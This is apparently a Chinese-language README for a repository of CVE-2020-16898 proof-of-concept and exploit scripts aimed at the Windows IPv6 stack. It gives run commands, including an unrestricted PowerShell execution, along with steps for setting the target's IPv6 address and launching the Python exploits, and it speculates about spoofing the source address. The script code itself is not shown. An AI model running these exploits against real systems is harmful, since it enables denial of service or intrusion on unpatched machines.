


## poc


**CVE-2020-16898_Checker-poc但是测试感觉不好用测不出来**

测试了感觉测不出来

命令：

管理员启动powershell

```
Powershell.exe -ExecutionPolicy UnRestricted -File .\CVE-2020-16898-poc.ps1
```


**CVE-2020-16898-poc.txt**

是CVE-2020-16898-poc.ps1的源码


## exp

**cve-2020-16898-exp2**

条件：能和目标通信，知道目标的本地链接IPv6地址

使用

```
修改代码中的dst参数为目标的本地链接IPv6地址
然后攻击机执行
python3 CVE-2020-16898.py即可
```






**CVE-2020-16898-exp1.py**

需要目标的**“ipv6地址”或者“临时ipv6地址”**和自己的**本地链接的ipv6地址**

```
v6_dst = "fd15:4ba5:5a2b:1008:109f:9a46:8d19:f103"	#根据上面的修改为目标机的ipv6地址 或者 临时ipv6地址
v6_src = "fe80::501a:49b7:b7d:5362%12"				#攻击者的本地ipv6地址
```

但是测试时发现填写目标的本地链接ipv6地址也可以，不知道是不是本地测试的原因，还是源IPv6地址可以伪造

修改完之后直接执行

```
python3 CVE-2020-16898-exp1.py
```

